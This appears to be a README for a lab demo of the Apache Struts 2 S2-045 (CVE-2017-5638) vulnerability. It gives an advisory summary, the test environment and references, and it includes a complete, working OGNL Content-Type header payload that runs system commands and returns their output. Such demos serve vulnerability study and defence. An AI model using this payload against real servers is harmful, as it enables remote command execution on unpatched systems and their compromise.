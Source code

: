 # S2-045 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>  |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155]({FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155.jpg)

Payload: 

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

## Debug



## Reference

- [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-045 远程代码执行漏洞（CVE-2017-5638）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md)
- [Struts-S2-045漏洞利用（含环境搭建、含POC）](https://blog.csdn.net/zzkk_/article/details/77159524)

